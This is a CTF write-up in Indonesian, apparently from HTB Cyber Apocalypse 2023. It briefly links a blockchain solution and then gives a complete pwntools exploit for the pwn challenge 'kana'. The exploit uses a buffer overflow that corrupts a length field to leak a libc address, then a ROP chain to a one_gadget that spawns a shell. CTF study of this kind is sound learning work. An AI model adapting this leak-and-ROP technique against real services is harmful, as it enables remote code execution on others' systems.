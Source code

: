 untuk lebih lengkapnya bisa dilihat di writeup berikut ini: [https://sirius-a.github.io/ctf-writeups/2023/HTB-cyber-apocalypse/blockchain_the_art_of_deception/](https://sirius-a.github.io/ctf-writeups/2023/HTB-cyber-apocalypse/blockchain_the_art_of_deception/ "https://sirius-a.github.io/ctf-writeups/2023/HTB-cyber-apocalypse/blockchain_the_art_of_deception/")

# kana - pwn

bug bof tapi ada twist agar bisa overwrite variable setelah rip tanpa merusak rip agar dapat leak alamat libc.
note : solve setelah selesai dengan libc lokal (2.37)

```python
#!/usr/bin/env python3

from pwn import *

exe = 'kana'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/usr/lib/libc.so.6', checksec=False)
context.log_level = 'warning'

cmd = '''
c
'''

if args.REMOTE:
    p = remote('localhost', 8000)
else:
    p = process()

### EXPLOIT HERE ###

# gdb.attach(p, cmd)

# bug : bof, read one by one in while loop break if have \n

p.sendlineafter(b'>> ',b'4')
p.sendlineafter(b'>> ',b'CCCCCCCCCCCC')
#Overwrite the kana length to be 0xf0 instead
p.sendlineafter(b'>> ',b'A'*92+b'\xc7'+p8(0x80)) # c7 + 1 is where the length of cccc is stored if get overwriten ccc will print out more (leak)
p.recvline(b'\x7f\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00')
libc.address = u64(p.recvline(0)[-8:-2].ljust(8, b'\x00')) - 0x23790
print(hex(libc.address))

pop_rbx = libc.address + 0x000000000002e211 
pop_rcx = libc.address + 0x0000000000045a3f
excve = libc.address + 0x49640

# rop call one_gadget
payload = flat(
    # b'a'*92,
    # b'\x5d\x00\x00\x00',
    # b'b'*23,
    b'a'*115,
    pop_rbx,
    0x0,
    pop_rcx,
    0x0,
    excve
)
p.sendlineafter(b'>> ', payload)
p.interactive()
```